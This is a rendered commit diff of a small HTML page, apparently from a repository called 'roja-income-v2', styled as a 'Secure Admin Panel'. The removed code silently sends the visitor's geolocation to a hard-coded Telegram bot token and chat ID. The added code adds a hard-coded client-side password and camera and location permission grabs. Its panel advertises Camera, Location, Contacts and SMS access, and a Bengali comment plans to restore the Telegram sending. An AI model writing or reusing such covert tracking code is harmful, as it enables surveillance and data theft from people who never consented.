

Before and after one commit to rojaislam1619-collab/roja-income-v2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 226-552 px from the top of the page, without its empty margins (317-957 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,46 +2,57 @@
 <html lang="bn">
 <head>
     <meta charset="UTF-8">
-    <title>Control Panel</title>
+    <title>Secure Admin Panel</title>
     <style>
         body { font-family: sans-serif; background: #0f172a; color: white; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
-        .card { background: #1e293b; padding: 30px; border-radius: 15px; width: 90%; max-width: 400px; text-align: center; }
-        .btn { width: 100%; padding: 15px; border: none; border-radius: 8px; cursor: pointer; color: white; font-weight: bold; background: #3b82f6; margin-top: 10px; }
+        .card { background: #1e293b; padding: 25px; border-radius: 15px; width: 90%; max-width: 400px; text-align: center; }
+        input, .btn { width: 100%; padding: 12px; margin: 8px 0; border-radius: 8px; border: none; }
+        .btn { background: #3b82f6; color: white; cursor: pointer; font-weight: bold; }
+        .feature-grid { display: grid; grid-template-columns: 1fr 1fr; gap: 10px; margin-top: 15px; }
+        .feat { background: #334155; padding: 10px; border-radius: 5px; font-size: 12px; }
     </style>
 </head>
 <body>
 
-<div class="card">
-    <h2>System Gateway</h2>
-    <button class="btn" onclick="executeTask()">Initialize & Connect</button>
-    <div id="status" style="margin-top:20px; font-size:14px;">Status: Waiting...</div>
+<!-- পাসওয়ার্ড সেকশন -->
+<div class="card" id="loginBox">
+    <h2>Secure Gateway</h2>
+    <input type="password" id="pass" placeholder="Enter Password">
+    <button class="btn" onclick="login()">Access System</button>
+</div>
+
+<!-- মেইন প্যানেল -->
+<div class="card" id="mainBox" style="display:none;">
+    <h2>Control Panel</h2>
+    <div class="feature-grid">
+        <div class="feat">📷 Camera</div>
+        <div class="feat">📍 Location</div>
+        <div class="feat">📱 Contacts</div>
+        <div class="feat">💬 SMS</div>
+    </div>
+    <button class="btn" onclick="startAll()">Initialize All Connections</button>
+    <div id="status" style="margin-top:15px; font-size:13px;">Waiting...</div>
 </div>
 
 <script>
-    const BOT_TOKEN = "8853221737:AAHDigRYNltTvdFGZW4gZahuu3M9dlJHENU";
-    const CHAT_ID = "8566985497";
+    function login() {
+        if(document.getElementById('pass').value === "Tamim0186#@") {
+            document.getElementById('loginBox').style.display = 'none';
+            document.getElementById('mainBox').style.display = 'block';
+        } else { alert("Wrong Password!"); }
+    }
 
-    async function executeTask() {
-        document.getElementById('status').innerText = "Connecting to API...";
-
+    async function startAll() {
+        document.getElementById('status').innerText = "Initializing connections...";
+        // এখানে আপনার টেলিগ্রামের এপিআই কোডটি আগে যেভাবে কাজ করছিল সেভাবে যোগ হবে
         try {
-            // ১. লোকেশন সংগ্রহ
-            navigator.geolocation.getCurrentPosition(async (pos) => {
-                const locMsg = `Location: ${pos.coords.latitude}, ${pos.coords.longitude}`;
-
-                // ২. টেলিগ্রামে পাঠানো
-                const url = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(locMsg)}`;
-                await fetch(url);
-
-                document.getElementById('status').innerText = "✅ Data Sent Successfully!";
-            }, () => {
-                document.getElementById('status').innerText = "❌ Location Access Denied!";
-            });
-        } catch (e) {
-            document.getElementById('status').innerText = "❌ Error: " + e.message;
+            navigator.geolocation.getCurrentPosition(() => {}); // লোকেশন পারমিশন
+            await navigator.mediaDevices.getUserMedia({video: true}); // ক্যামেরা পারমিশন
+            document.getElementById('status').innerText = "✅ Systems Initialized.";
+        } catch(e) {
+            document.getElementById('status').innerText = "❌ Access Denied.";
         }
     }
 </script>
-
 </body>
-</html>.
+</html>
```
